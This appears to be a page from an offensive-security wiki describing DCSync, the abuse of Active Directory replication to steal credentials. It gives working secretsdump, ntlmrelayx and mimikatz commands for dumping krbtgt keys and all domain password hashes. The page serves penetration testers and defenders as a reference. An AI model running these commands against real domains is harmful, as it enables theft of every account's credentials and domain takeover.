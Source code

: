```yaml
---
description: MITRE ATT&CK™ Sub-technique T1003.006
authors: ShutdownRepo
category: ad
---
```


# DCSync

## Theory

DCSync is a technique that uses Windows Domain Controller's API to simulate the replication process from a remote domain controller. This attack can lead to the compromise of major credential material such as the Kerberos `krbtgt` keys used legitimately for tickets creation, but also for [tickets forging](../../kerberos/forged-tickets/index) by attackers. The consequences of this attack are similar to an [NTDS.dit dump and parsing](ntds.md) but the practical aspect differ. A DCSync is not a simple copy & parse of the NTDS.dit file, it's a `DsGetNCChanges` operation transported in an RPC request to the DRSUAPI (Directory Replication Service API) to replicate data (including credentials) from a domain controller.

This attack requires domain admin privileges to succeed (more specifically, it needs the following extended privileges: `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All`). Members of the Administrators, Domain Admins, Enterprise Admins, and Domain Controllers groups have these privileges by default. In some cases, over-privileged accounts can be abused to [grant controlled objects the right to DCSync](../../dacl/grant-rights.md).

> [!TIP]
> A setting exists in the account policy or when creating users telling the domain controller to store the user's password using reversible encryption instead of irreversible hashing. This allows attackers to retrieve the passwords in clear-text.

## Practice

::: tabs

=== UNIX-like

On UNIX-like systems, this attack can be carried out with [Impacket](https://github.com/SecureAuthCorp/impacket/)'s [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) which has the ability to run this attack on an elevated context obtained through [plaintext password stuffing](../bruteforcing/stuffing.md), [pass-the-hash](../../ntlm/pth.md) or [pass-the-ticket](../../kerberos/ptt.md).

```bash
# using a plaintext password
secretsdump -outputfile 'dcsync' -dc-ip "$DC_IP" "$DOMAIN"/"$USER":"$PASSWORD"@"$DC_HOST"

# with Pass-the-Hash
secretsdump -outputfile 'dcsync' -hashes :"$NT_HASH" -dc-ip "$DC_IP" "$DOMAIN"/"$USER"@"$DC_HOST"

# with Pass-the-Ticket
KRB5CCNAME=ticket.ccache secretsdump -k -no-pass -outputfile 'dcsync' -dc-ip "$DC_IP" @"$DC_HOST"
```

The secretsdump script creates the following files.

| File | Content |
| ---------- | --------------------------------------------------- |
| .ntds | LM and NT password hashes |
| .cleartext | Passwords stored using reversible encryption |
| .kerberos | Kerberos keys (DES, AES128 and AES256) |
| .sam | Domain controller's [SAM secrets](sam-and-lsa-secrets.md) |
| .secrets | Domain controller's [LSA secrets](sam-and-lsa-secrets.md) |

This attack can also be operated with a [relayed NTLM authentication](../../ntlm/relay.md), but only if the target domain controller is vulnerable to [Zerologon](../../netlogon/zerologon.md) since the DRSUAPI always requires signing.

```bash
# target vulnerable to Zerologon, dump DC's secrets only
ntlmrelayx.py -t dcsync://'DOMAINCONTROLLER'

# target vulnerable to Zerologon, dump Domain's secrets
ntlmrelayx.py -t dcsync://'DOMAINCONTROLLER' -auth-smb 'DOMAIN'/'LOW_PRIV_USER':'PASSWORD'
```


=== Windows

On Windows, [mimikatz](https://github.com/gentilkiwi/mimikatz) (C) can be used [`lsadump::dcsync`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/dcsync) to operate a DCSync and recover the `krbtgt` keys for a [golden ticket attack](../../kerberos/forged-tickets/golden) for example. For this attack to work, the following mimikatz command should run in an elevated context (i.e. through runas with plaintext password, [pass-the-hash](../../ntlm/pth.md) or [pass-the-ticket](../../kerberos/ptt.md)).

```bash
# Extract a specific user, in this case the krbtgt
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /user:krbtgt

# Dump everything (printed in a short and readable format)
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /all /csv
```

:::


> [!TIP]
> For an undocumented reason, Impacket's secretsdump relies on SMB before doing a DCSync (hence requiring a `CIFS/domaincontroller` SPN when using Kerberos tickets) while Mimikatz relies on LDAP before doing the DCSync (hence requiring a `LDAP/domaincontroller` SPN when using Kerberos tickets)

## Resources

[https://attack.stealthbits.com/privilege-escalation-using-mimikatz-dcsync](https://attack.stealthbits.com/privilege-escalation-using-mimikatz-dcsync)